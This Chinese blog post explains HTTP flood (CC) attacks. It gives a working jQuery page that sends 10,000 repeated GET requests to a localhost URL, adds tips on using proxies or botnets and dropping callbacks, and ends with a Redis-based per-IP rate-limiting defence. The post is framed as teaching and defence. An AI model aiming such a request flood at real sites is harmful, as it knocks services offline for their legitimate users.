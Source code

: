 ```yaml
---
title: Javascript 模拟CC攻击与防范浅析
date: 2017-10-15 18:13:17
tags: [干货, JavaScript]
categories: Web
---
```

# CC攻击的原理与防范浅析
#### 本人菜鸟一枚，如果说得不对，请见谅，欢迎指正。
## 一、CC攻击的原理： 
##### CC攻击的原理就是攻击者控制某些主机不停地发大量数据包给对方服务器造成服务器资源耗尽，一直到宕机崩溃。CC主要是用来攻击页面的，每个人都有这样 的体验：当一个网页访问的人数特别多的时候，打开网页就慢了，CC就是模拟多个用户(多少线程就是多少用户)不停地进行访问那些需要大量数据操作(就是需 要大量CPU时间)的页面，造成服务器资源的浪费，CPU长时间处于100%，永远都有处理不完的连接直至就网络拥塞，正常的访问被中止。

## 二、Js 模拟CC 攻击
#### CC攻击的种类有三种，直接攻击、代理攻击、僵尸网络攻击
#### 我们就来简单的模拟一下，我这种算是 直接攻击
#### 记住这个只是：简单模拟，简单模拟，简单模拟。
##### 我就一台电脑，没肉鸡。
> js 代码如下：

```
<html>
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1" />
<script  src="http://libs.baidu.com/jquery/1.7.2/jquery.min.js"></script>
</head>
<body>
 <h1>发送请求数：<span id="requestNum">0</span></h1>
<script>
var i=0;
var task="";
//攻击次数
var attackNum = 10000;
//攻击地址
var url="http://127.0.0.1/blog";

//隔几毫秒攻击一次
var time=100;

$(document).ready(function(){	
	task = setInterval("MainTask()",time);
})
function MainTask(){
	i++;
	sendRequest(i);	
	addNum(i);
	if(i > attackNum){
		clearInterval(task);
	}
}
function sendRequest(i){
	console.log("send",i);
	$.ajax({
		type:"get",
		url:url,
		cache:false,
		dataType:"json",
		data:{},
		success:function(data){
			console.log("result-text:",data);
		}
	});
}
function addNum(num){
	$("#requestNum").text(num);
}
</script>
</html>
```
> 这只是简单的模拟，现实中不会那么简单，用本机攻击是可以追踪到你的ip，所以大部分都是通过代理或者肉鸡，进行攻击。ajax 可以不显示回调，不然会耗自己的带宽，我这里简单的模拟。而且现实中还有跨越问题等东西。

## 三、防御浅析
#### 思路：利用拦截器，拦截所有请求，统计单位时间内，单个IP访问的次数。如果访问次数超过你限制的数量，直接拉到黑名单。下次不给访问。统计个数可以用redis来实现，黑名单可以放在数据库，也可直接放缓存。最后就是放数据库，然后服务器启动时，把黑名单缓存起来。

#### springboot 拦截器  和  springboot 操作redis 我都有相对应的文章 与，源码示例，在博客可以搜 springboot 或者点击springboot 标签
#### 防御的具体实现代码，我就不说，这小防御代码挺简单的。
